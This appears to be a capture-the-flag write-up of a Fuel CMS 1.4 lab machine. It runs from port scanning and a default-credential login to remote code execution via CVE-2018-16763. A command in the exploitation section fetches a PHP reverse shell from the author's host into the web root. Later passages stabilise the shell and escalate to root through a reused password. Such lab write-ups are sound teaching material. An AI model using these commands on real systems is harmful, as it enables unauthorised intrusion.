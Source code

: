 ```yaml
---
sticker: lucide//flame
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409164943.png)


We got a `/fuel` directory:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409165238.png)

Maybe default credentials still work, let's try:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409172944.png)

We got a password, let's switch to root:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250409173046.png)


